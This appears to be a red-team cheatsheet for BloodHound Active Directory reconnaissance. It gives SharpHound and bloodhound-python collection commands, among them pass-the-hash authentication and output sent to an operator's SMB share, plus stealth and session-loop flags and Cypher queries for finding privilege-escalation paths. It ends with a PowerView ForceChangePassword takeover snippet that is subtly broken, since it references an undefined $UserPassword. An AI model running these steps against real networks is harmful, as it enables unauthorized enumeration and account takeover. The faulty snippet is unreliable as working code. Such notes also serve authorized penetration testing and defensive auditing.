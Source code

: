 # BloodHound

#### Data collection

```bash
# Get all
SharpHound.exe -All

# DC Only
SharpHound.exe -DCOnly

# Computer only
SharpHound.exe -ComputerOnly

# Save to smbshare
sudo impacket-smbserver share ./ -smb2support -user zen -password zen
SharpHound.exe --memcache --outputdirectory \\10.10.11.10\share\ --zippassword ZenSharp --outputprefix ZEN --randomfilenames

# LDAP auth
SharpHound.exe -All --ldappassword zenpass --ldapusername zen
```

#### Other usefull flags

| Flag                | Description               |
| ------------------- | ------------------------- |
| `--randomfilenames` | Random files names output |
| `--outputdirectory` | Output directory          |
| `--zipfilename`     | Filename for zip          |
| `--zippassword`     | Password zip              |

#### Session loops

To see where users are connected we can use loops so SharpHound can find active sessions of users.

| Flag             | Description                     |
| ---------------- | ------------------------------- |
| `--loop`         | Loop computer collection        |
| `--loopduration` | Loop duration                   |
| `--loopinterval` | Sleep interval                  |
| `--stealth`      | Only check systems to have data |

```powershell
SharpHound.exe -c Session --loop --loopduration 02:00:00 --loopinterval 00:01:00
```

#### Data collection from Linux

```bash
# Using hash
bloodhound-python -u 'admin' -p zen123 -d zencorp.local -ns 172.16.1.5 -c All

# Using hash
bloodhound-python -u 'admin' --hashes b18733e57ca3786565914d7136e0e79a -d zen.local -ns 172.16.1.5 -c All

# Using kerberos authentication
bloodhound-python -d zencorp.local -c DCOnly -u zen -p zen123 -ns 10.129.204.111 -k 
```

#### Queries

```shell
# Search user
MATCH (u:User {name:"JOE@ZENCORP.LOCAL"}) RETURN u
MATCH (u:User) WHERE u.name = "JOE@ZENCORP.LOCAL" RETURN u

# Get Group memberships
MATCH (u:User {name:"JOE@ZENCORP.LOCAL"})-[r:MemberOf]->(joeGroups) 
RETURN joeGroups

# MemberOf Relationship
MATCH p=((n:User {name:"JOE@ZENCORP.LOCAL"})-[r:MemberOf]->(g:Group)) 
RETURN p

# MemberOf Relationship depth 1..* (1 -any)
MATCH p=((u:User {name:"JOE@ZENCORP.LOCAL"})-[r:MemberOf*1..]->(g:Group)) 
RETURN p

# Find path group name Help Desk
MATCH p=(n:User)-[r1:MemberOf*1..]->(g:Group)
WHERE nodes(p)[1].name CONTAINS 'HELPDESK'
RETURN p

# Find path group name Help Desk using =~
MATCH p=(n:User)-[r1:MemberOf*1..]->(g:Group)
WHERE nodes(p)[1].name =~ '(?i)helpdesk.*'
RETURN p

# ShortestPath from node that contains john to any node
MATCH p = shortestPath((n)-[*1..]->(c)) 
WHERE n.name =~ '(?i)john.*' AND NOT c=n 
RETURN p

# Find rights domain user should not have
MATCH p=(g:Group)-[r:Owns|WriteDacl|GenericAll|WriteOwner|ExecuteDCOM|GenericWrite|AllowedToDelegate|ForceChangePassword]->(c:Computer) 
WHERE g.name STARTS WITH "DOMAIN USERS" 
RETURN p

# Find all users with desriptions
MATCH (u:User) 
WHERE u.description IS NOT NULL 
RETURN u.name,u.description

# Find WriteSPN
MATCH p=((n)-[r:WriteSPN]->(m)) RETURN p
```

#### Cheatsheets

[https://gist.github.com/jeffmcjunkin/7b4a67bb7dd0cfbfbd83768f3aa6eb12](https://gist.github.com/jeffmcjunkin/7b4a67bb7dd0cfbfbd83768f3aa6eb12)[https://hausec.com/2019/09/09/bloodhound-cypher-cheatsheet/](https://hausec.com/2019/09/09/bloodhound-cypher-cheatsheet/)

#### ForceChangePassword

```powershell
# Use powerview
Import-Module .\PowerView.ps1

# Save password
$SecPassword = ConvertTo-SecureString 'Password123' -AsPlainText -Force

# Create PSCredential object
$Cred = New-Object System.Management.Automation.PSCredential('ZENCORP\john', $SecPassword)

# Change password
Set-DomainUserPassword -Identity steven -AccountPassword $UserPassword -Credential $Cred -Verbose
```
